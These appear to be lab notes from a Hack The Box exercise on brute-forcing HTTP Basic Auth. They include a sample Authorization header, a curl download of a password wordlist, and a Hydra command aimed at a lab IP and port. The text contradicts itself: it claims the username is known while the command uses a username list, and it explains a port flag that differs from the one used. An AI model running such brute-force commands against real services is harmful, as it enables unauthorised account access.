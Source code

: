 For example, the headers for Basic Auth in a HTTP GET request would look like:

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

`http-get` hydra service to brute force the basic authentication target.

We already know the username is `basic-auth-user`. Since we know the username, we can simplify the Hydra command and focus solely on brute-forcing the password

```bash
# Download wordlist if needed
AhmaDb0x@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
AhmaDb0x@htb[/htb]$ hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 94.237.51.14 http-get / -s 35390
```

the attack should be performed using HTTP GET requests to the root path ('/')
`-s 81`: This overrides the default port for the HTTP service and sets it to 81.


